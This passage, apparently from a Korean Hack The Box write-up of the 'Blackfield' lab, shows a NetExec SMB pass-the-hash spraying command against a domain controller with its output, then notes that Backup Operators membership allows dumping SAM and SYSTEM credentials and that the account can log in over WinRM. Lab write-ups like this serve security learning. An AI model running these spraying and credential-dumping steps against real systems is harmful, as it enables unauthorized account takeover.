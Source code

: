 ### Password Spraying
- 획득한 NT 해시 값을 사용하여 패스워드 스프레이 공격을 진행하였으며, 유효한 계정(`svc_backup`)을 발견했다.  
```zsh
└─# nxc smb 10.129.229.17 -u userlist -H nthashes --continue-on-success
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [-] BLACKFIELD.local\Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE
SMB         10.129.229.17   445    DC01             [-] BLACKFIELD.local\DC01$:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE 
SMB         10.129.229.17   445    DC01             [-] BLACKFIELD.local\svc_backup:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE 
SMB         10.129.229.17   445    DC01             [-] BLACKFIELD.local\Administrator:9658d1d1dcd9250115e2205d9f48400d STATUS_LOGON_FAILURE
SMB         10.129.229.17   445    DC01             [-] BLACKFIELD.local\DC01$:9658d1d1dcd9250115e2205d9f48400d STATUS_LOGON_FAILURE 
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d 
SMB         10.129.229.17   445    DC01             [-] BLACKFIELD.local\Administrator:b624dc83a27cc29da11d9bf25efea796 STATUS_LOGON_FAILURE
SMB         10.129.229.17   445    DC01             [-] BLACKFIELD.local\DC01$:b624dc83a27cc29da11d9bf25efea796 STATUS_LOGON_FAILURE
```

- 블러드하운드를 통해 `svc_backup` 계정에 대한 정보를 수집한다.  
- 해당 계정은 `Remote Management Users` 그룹의 멤버이므로 5985 포트를 통한 WinRM 접속이 가능하다.  
- 또한, `Backup Operators` 그룹의 멤버이므로, 윈도우 시스템의 SYSYEM, SAM 파일을 덤프하여 크레덴셜 정보 획득이 가능하다.  

<img src='assets/post/2025/Playground/Hack The Box/Blackfield/4.png' width=1200 alt=''>

---

### Initial Access (svc_backup)

- [1] 5985 (WinRM) 포트를 통해 원격 접속 후 플래그 확인 (C:\Windows\svc_backup\Desktop\user.txt)
